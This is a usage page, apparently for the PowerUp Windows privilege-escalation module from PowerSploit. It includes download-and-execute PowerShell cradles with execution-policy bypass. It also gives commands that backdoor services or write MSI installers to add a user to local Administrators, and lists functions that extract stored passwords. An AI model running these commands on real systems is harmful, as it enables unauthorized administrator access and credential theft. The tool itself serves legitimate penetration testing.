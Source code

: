 # PowerUp
PowerUp aims to be a clearinghouse of common Windows privilege escalation
vectors that rely on misconfigurations.

Running Invoke-AllChecks will output any identifiable vulnerabilities along
with specifications for any abuse functions. The -HTMLReport flag will also
generate a COMPUTER.username.html version of the report.

Author: @harmj0y
License: BSD 3-Clause
Required Dependencies: None
Optional Dependencies: None

URL: https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc

## Launching every tests
Two main possibilities:
1. From the PowerShell ISE or a PowerShell session with the right execution policy:
```
PS C:\> IEX (New-Object Net.WebClient).DownloadString("https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1")
PS C:\> Invoke-AllChecks [-HTMLReport] [| Out-File -Encoding ASCII checks.txt]
```

2. From a cmd prompt:
```
C:\> powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/PowerShellMafia/PowerSploit/raw/master/Privesc/PowerUp.ps1'); Invoke-AllChecks"
```

If you get errors or issues, do not forget to also check [PowerShellery](../guidelines/internal/PowerShellery.md)...

## Pwning
### Service executable permission or unquoted service path issues
1. Backup the service and create a backdoored one which will add <user> to the localgroup Administrators:
```
PS C:\> Write-ServiceEXE -ServiceName <service_name> -UserName <user> -Password <password>
```

2. Restart the service or reboot the machine
3. Restore the backup service:
```
PS C:\> Restore-ServiceEXE -ServiceName <service_name>
```

### Service permission issues
Stop the service, change the path name of the service with *net localgroup Administrators <user> /add* and restart:
```
PS C:\> Invoke-ServiceUserAdd -ServiceName <service_name> -UserName <user> -Password <password>
```

### AlwaysInstallElevated
Write out a custom .msi installer that add your user within the localgroup Administrators and run it elevated privileges:
```
PS C:\> Write-UserAddMSI
```

## More info (man)
Check-out the source code...

### Service Enumeration:
    Get-ServiceUnquoted                 -   returns services with unquoted paths that also have a space in the name
    Get-ModifiableServiceFile           -   returns services where the current user can write to the service binary path or its config
    Get-ModifiableService               -   returns services the current user can modify
    Get-ServiceDetail                   -   returns detailed information about a specified service

### Service Abuse:
    Invoke-ServiceAbuse                 -   modifies a vulnerable service to create a local admin or execute a custom command
    Write-ServiceBinary                 -   writes out a patched C# service binary that adds a local admin or executes a custom command
    Install-ServiceBinary               -   replaces a service binary with one that adds a local admin or executes a custom command
    Restore-ServiceBinary               -   restores a replaced service binary with the original executable

### DLL Hijacking:
    Find-ProcessDLLHijack               -   finds potential DLL hijacking opportunities for currently running processes
    Find-PathDLLHijack                  -   finds service %PATH% DLL hijacking opportunities
    Write-HijackDll                     -   writes out a hijackable DLL

### Registry Checks:
    Get-RegistryAlwaysInstallElevated   -   checks if the AlwaysInstallElevated registry key is set
    Get-RegistryAutoLogon               -   checks for Autologon credentials in the registry
    Get-ModifiableRegistryAutoRun       -   checks for any modifiable binaries/scripts (or their configs) in HKLM autoruns

### Miscellaneous Checks:
    Get-ModifiableScheduledTaskFile     -   find schtasks with modifiable target files
    Get-UnattendedInstallFile           -   finds remaining unattended installation files
    Get-Webconfig                       -   checks for any encrypted web.config strings
    Get-ApplicationHost                 -   checks for encrypted application pool and virtual directory passwords
    Get-SiteListPassword                -   retrieves the plaintext passwords for any found McAfee's SiteList.xml files
    Get-CachedGPPPassword               -   checks for passwords in cached Group Policy Preferences files

### Other Helpers/Meta-Functions:
    Get-ModifiablePath                  -   tokenizes an input string and returns the files in it the current user can modify
    Get-CurrentUserTokenGroupSid        -   returns all SIDs that the current user is a part of, whether they are disabled or not
    Add-ServiceDacl                     -   adds a Dacl field to a service object returned by Get-Service
    Set-ServiceBinPath                  -   sets the binary path for a service to a specified value through Win32 API methods
    Test-ServiceDaclPermission          -   tests one or more passed services or service names against a given permission set
    Write-UserAddMSI                    -   write out a MSI installer that prompts for a user to be added
    Invoke-AllChecks                    -   runs all current escalation checks and returns a report
